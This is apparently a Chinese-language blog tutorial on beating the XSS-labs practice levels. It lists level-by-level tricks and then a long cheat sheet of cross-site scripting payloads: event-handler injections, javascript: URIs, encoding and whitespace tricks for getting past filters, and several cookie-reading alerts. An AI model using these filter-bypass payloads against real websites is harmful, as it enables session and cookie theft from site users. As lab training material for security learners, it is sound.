 ```yaml
---
layout:     post
title:      XSS
subtitle:   教程
date:       2024-10-27
author:     白泽
header-img: img/post-bg-tree.jpg
catalog: true
tags:
    - XSS
    - 靶场
    - 教程
---
```


# XSS-labs通关技巧

1. `GET 参数连接<script>alert()</script>`
2. `根据源代码闭合标签 <'""'>`
3. `onlick=alert() `
4. ` onfocus=javascript:alert() onfoucus=alert(0) `  
5. `<>`-str_replace
6. `大小写`-strtolower
7. `Unicode编码`
8. `a href=javascript:alert()`
9. `双写`
10. `img scr= onerror=alert()>  img scr=  onmouseover=alert()> img src= onmouseout=alert()> `
11. 以下为隐藏传参
12. `隐藏输入框`
13. `修改referer头`
14. `修改User-Agen`
15. `修改cookie`
16. `嵌入网站，触发xss`
17. `ng-include:'level1.php'`
18. `%0a与%0b`-空格绕过
19. `<iframe src="javascript:alert(1)"></iframe>`
20. `exif xss`使用图片马
21. `embed`拼接加绕过
22. `//`注释

## 总结

1. `htmlspecialchars`将预定义的字符数转义为HTML实体，详细为`&` ` ""` `'` `<` `>`**注意单引号不转义**

2. `javascript:alert()`使用JAVA的伪协议

3. `strtolower`大小写

4. `str_replace`替换

5. `ng-include`指令用于包含外部的 HTML 文件。包含的内容将作为指定元素的子节点。

   `ng-include`属性的值可以是一个表达式，返回一个文件名。

   默认情况下，包含的文件需要包含在同一个域名下

```html
<script>alert(document.cookie)</script>
<script>prompt(document.cookie)</script>
<script>confirm(/xss/)</script>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>       //Unicode码  还有十六进制 URL编码 JS编码 HTML实体编码等等
<script>alert/*dsa*/(1)</script>   //绕过黑名单
<script>(alert)(1)</script>        //绕过黑名单
<svg/onload=alert(1)>
<body onload=alert("XSS")>

<svg onload="alert(1)">       //过滤 script时
"><svg/onload=alert(1)//

<input value="1" autofocus onfocus=alert(1)  x="">   //过滤 script时

<a href="" onclick="alert(1111)">

<iframe src="javascript:alert(1)"></iframe>      //过滤 script时

<svg onmousemove="alert(1)">

<input name="name" value=”” onmousemove=prompt(document.cookie) >

<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>

<input type = "button"  value ="clickme" onclick="alert('click me')" />

<BODY onload="alert('XSS')">

<IMG SRC="" onerror="alert('XSS')">
<IMG SRC="" onerror="javascript:alert('XSS');">

制表符 绕过滤器的
<IMG SRC="" onerror="jav&#x9ascript:alert('XSS');">
1.<iframe src=javascript:alert(1)></iframe> //Tab
2.<iframe src=javascript:alert(1)></iframe> //回车
3.<iframe src=javascript:alert(1)></iframe> //换行
4.<iframe src=javascript:alert(1)></iframe> //编码冒号
5.<iframe src=javascript:alert(1)></iframe> //HTML5 新增的实体命名编码，IE6、7下不支持
<a href=javascript:\u0061\u006C\u0065\u0072\u0074(1)>Click</a>
<a href=javascript:%5c%75%30%30%36%31%5c%75%30%30%36%43%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(1)>Click</a>
<a href=javascript:%5c%75%30%30%36%31%5c%75%30%30%36%43%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(1)>Click</a>

<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWHNzVGVzdCIpOzwvc2NyaXB0Pg=="></object>

"><img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,59))">

<script>onerror=alert;throw document.cookie</script>
<script>{onerror=alert}throw 1337</script>         //过滤 单引号，双引号，小括号时   没过滤script

<a href="" onclick="alert(1111)">
' οnclick=alert(1111) '   //鼠标点击事件执行JavaScript语句

```

x
